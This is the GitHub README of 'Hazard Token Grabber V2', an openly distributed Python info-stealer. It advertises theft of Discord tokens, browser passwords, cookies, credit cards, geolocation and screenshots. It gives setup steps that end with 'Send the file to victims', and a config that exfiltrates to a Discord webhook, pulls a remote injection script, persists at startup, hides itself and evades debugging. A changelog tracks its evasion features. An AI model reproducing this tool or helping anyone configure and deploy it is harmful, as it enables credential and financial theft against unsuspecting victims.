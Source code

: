 <h1 align="center">
  Hazard Token Grabber V2 🔰
</h1>

<p align="center"> 
  <kbd>
<img src="https://raw.githubusercontent.com/Rdimo/images/ef843c19b7dc2f65c6ace3d763c521d6218d7269/Hazard-Token-Grabber-V2/Hazardv2.jpg"></img>
  </kbd>
</p>

<p align="center">
  <img src="https://img.shields.io/github/languages/top/Rdimo/Hazard-Token-Grabber-V2?style=flat-square">
  <img src="https://img.shields.io/github/last-commit/Rdimo/Hazard-Token-Grabber-V2?style=flat-square">
  <img src="https://sonarcloud.io/api/project_badges/measure?project=Rdimo_Hazard-Token-Grabber-V2&metric=ncloc"/>
  <img src="https://img.shields.io/github/stars/Rdimo/Hazard-Token-Grabber-V2?color=%23daff00&label=Stars&style=flat-square">
  <img src="https://img.shields.io/github/forks/Rdimo/Hazard-Token-Grabber-V2?color=%23daff00&label=Forks&style=flat-square">
</p>

<h2 align="center">
  Hazard-Token-Grabber-V2 was made by

Love ❌ code ✅

</h2>

**NOTE:** This is a free software. It will **NOT** be undetected from antiviruses, or have custom features. If you want a better one, join [CheatAway](https://cheataway.com/invite) and purchase one. 
> [Why Hazardv2 won't be more OP](https://github.com/Rdimo/Hazard-Token-Grabber-V2/issues/314#issuecomment-1133918906)

---

## <a id="content"></a>🌐 〢 Content

- [🔰・Features](#features)
- [🌌・Discord](https://cheataway.com/invite)
- [🎉・Setting up Hazard Token Grabber.V2](#setup)
- [⚙・Config](#config)
- [📝・Changelog](#changelog)

## <a id="features"></a>🔰 〢 Features

```
> Windows Product Key & Build Info
> Pretty Fast Even if it Was Made With Python
> IP & Geolocation. (Country, City, Google Maps Location)
> A screenshot of all their monitors
> All valid/working discord tokens. (Bypasses BetterDiscord, Token Protector and Discord's new encryption)
> Their Passwords & Credit Cards for Discord (updates when they change it)
> All Passwords and Cookies from the Chrome Browser
> + More!
```

## <p align="left"><img src="https://raw.githubusercontent.com/Rdimo/images/master/Hazard-Token-Grabber-V2/info.png">

---

## <a id="setup"></a> 📁 〢 Setting up Hazard Token Grabber.V2

1. Install [python](https://www.python.org/) and add it to [path](https://datatofish.com/add-python-to-windows-path/).
2. Open up [main.py](https://github.com/Rdimo/Hazard-Token-Grabber-V2/blob/master/main.py) with notepad or some other editor
3. Locate the config at the top of the file and Replace "WEBHOOK_HERE" with a discord webhook you've created. (Keep the quotes around the webhook)
4. Double Click `setup.bat` and allow it to finish.
5. A Window will open prompting for a name. Put something in such as "Token_Logger" (You can always rename the file later)
6. Send the file to victims. 😈

## <a id="config"></a>⚙ 〢 Config

If you Want to change the config, open up [main.py](https://github.com/Rdimo/Hazard-Token-Grabber-V2/blob/master/main.py) and locate it at the top. There you can configure the following:

```py
config = {
    # replace WEBHOOK_HERE with your webhook ↓↓ or use the api from https://github.com/Rdimo/Discord-Webhook-Protector
    # Recommend using https://github.com/Rdimo/Discord-Webhook-Protector so your webhook can't be spammed or deleted
    'webhook': "WEBHOOK_HERE",
    # ONLY HAVE THE BASE32 ENCODED KEY HERE IF YOU'RE USING https://github.com/Rdimo/Discord-Webhook-Protector
    'webhook_protector_key': "KEY_HERE",
    # keep it as it is unless you want to have a custom one
    'injection_url': "https://raw.githubusercontent.com/Rdimo/Discord-Injection/master/injection.js",
    # set to False if you don't want it to kill programs such as discord upon running the exe
    'kill_processes': True,
    # if you want the file to run at startup
    'startup': True,
    # if you want the file to hide itself after run
    'hide_self': True,
    # does it's best to prevent the program from being debugged and drastically reduces the changes of your webhook being found
    'anti_debug': True,
    # this list of programs will be killed if hazard detects that any of these are running, you can add more if you want
    'blackListedPrograms':
    [
      ...
    ]

}
```

---

## <a id="changelog"></a>💭 〢 ChangeLog

```diff
v1.7.4 ⋮ 2022-05-31
+ exits if no internet connection was established.
+ made functions match the default regular expression ^[_a-z][a-z0-9_]*$
+ made classes match the default regular expression ^_?([A-Z_][a-zA-Z0-9]*|[a-z_][a-z0-9_]*)$

v1.7.2 ⋮ 2022-05-23
+ fixed bug were discord would still restart even if kill_processes was off

v1.7.1 ⋮ 2022-05-22
+ https://github.com/Rdimo/Discord-Webhook-Protector now works with the injection

v1.7.0 ⋮ 2022-05-22
+ Added support for https://github.com/Rdimo/Discord-Webhook-Protector

v1.6.9 ⋮ 2022-05-16
- Removed my accidently added webhook and enabled the defaults again,

v1.6.8 ⋮ 2022-05-16
+ fixed unpack valueError bug (https://github.com/Rdimo/Hazard-Token-Grabber-V2/issues/297)

v1.6.7 ⋮ 2022-05-15
+ fixed TypeError bug were loc could be a NoneType

v1.6.6 ⋮ 2022-05-11
+ updated token regex since discord update the auth token

v1.6.5 ⋮ 2022-05-7
+ bug fixes
+ cleaner code

v1.6.4 ⋮ 2022-05-01
+ anti-vm/debug
+ better encrypted token regex
+ bug fixes

v1.6.3 ⋮ 2022-04-24
+ fixed grab encrypted tokens from other discord versions
+ optimization
+ better handler
+ bug fixes

v1.6.2 ⋮ 2022-04-19
+ fixed decoding
+ better err handling

v1.6.1 ⋮ 2022-04-17
+ updated to discord_desktop_core-3

v1.6.0 ⋮ 2022-04-08
+ config to customize options
+ class object for general functions
+ threads and async functions making it 10x faster
+ decorator for the chrome grabbing functions
+ changed from requests to httpx for async lib
+ grabs disk and ram size
+ better builder
+ cleaner embed
+ formatted code
```
